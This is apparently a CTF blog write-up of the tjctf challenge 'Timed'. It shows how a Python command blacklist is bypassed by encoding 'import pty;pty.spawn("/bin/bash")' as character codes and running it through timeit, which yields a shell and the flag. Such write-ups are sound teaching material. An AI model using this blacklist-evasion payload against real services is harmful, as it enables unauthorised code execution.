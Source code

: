 {:title "Timed - tjctf"
 :layout :post
 :tags  ["ctf" "writeup" "python"]
 :toc false}

This one is a cool blacklist bypass. It's pretty simple. You are presented a
text interface asking you to enter a python command.

```console
Type a command to time it!
```

Trying some simple functions seem to work fine, but....

```console
Type a command to time it!
print(1)
Runtime: 1.09672546387e-05

Type a command to time it!
import os
Hey, no hacking!
```

...there seems to be a blacklist of characters that get screened before the
command is run. We must obfuscate it somehow. By digging around, we can see
exactly what is in the blacklist and what isn't in the blacklist. Most
peculiarly, `timeit` is **NOT** in the blacklist.

> Sidenote: it is hinted that `timeit` could be a possibility because it is
> visible in the source whenever we provide invalid python code for the program
> to execute.

```console
Type a command to time it!
arst
Traceback (most recent call last):
  File "/timed.py", line 36, in <module>
    time1=t.timeit(1)
  File "/usr/lib/python2.7/timeit.py", line 202, in timeit
    timing = self.inner(it, self.timer)
  File "<timeit-src>", line 6, in inner
    arst
NameError: global name 'arst' is not defined
Runtime: 0

Type a command to time it!
12.,,
Traceback (most recent call last):
  File "/timed.py", line 31, in <module>
    t=timeit.Timer(res)
  File "/usr/lib/python2.7/timeit.py", line 129, in __init__
    compile(setup + '\n' + stmt, dummy_src_name, "exec")
  File "<timeit-src>", line 2
    12.,,
        ^
SyntaxError: invalid syntax
```

We can do something like the following in order to trick the program into
executing blacklisted commands:

```python
# We want to execute the following python
want_exec = 'import pty;pty.spawn("/bin/bash")'
# So we obfuscate it a bit
obfuscated = [ord(x) for x in want_exec]
# and we can just reverse it using a join-map
assert want_exec == ''.join(map(chr, obfuscated))

# Payload:
timeit(''.join(map(chr, [105, ...])))
```

By pasting the payload into the program, we get a shell:

```console
Type a command to time it!
timeit(''.join(map(chr, [105, ...])))
bash: /root/.bashrc: Permission denied
nobody@c51f99923c23:/$ ls
ls
bin   dev  flag.txt  lib    media  opt   root  sbin  sys       tmp  var
boot  etc  home      lib64  mnt    proc  run   srv   timed.py  usr
nobody@c51f99923c23:/$ cat flag.txt
cat flag.txt
tjctf{iTs_T1m3_f0r_a_flaggg}
```
